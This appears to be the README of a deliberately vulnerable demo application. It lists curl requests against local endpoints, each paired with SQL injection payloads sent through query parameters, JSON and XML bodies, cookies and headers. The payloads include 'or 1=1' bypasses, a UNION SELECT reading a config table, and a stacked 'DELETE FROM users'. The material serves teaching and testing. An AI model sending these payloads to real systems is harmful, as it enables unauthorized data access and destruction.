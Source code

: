 # vulnerable

## SQL Injection

### GET request - Get list of users - filter by query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20UNION%20SELECT%20%2A%20FROM%20config%20%2D%2D%20%2D
```

### POST request - Get list of users - filter by json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - Get list of users - filter in cookie
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - Get list of users - filter in header
```bash
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - Get list of users - filter by xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/api/users -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/api/users -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```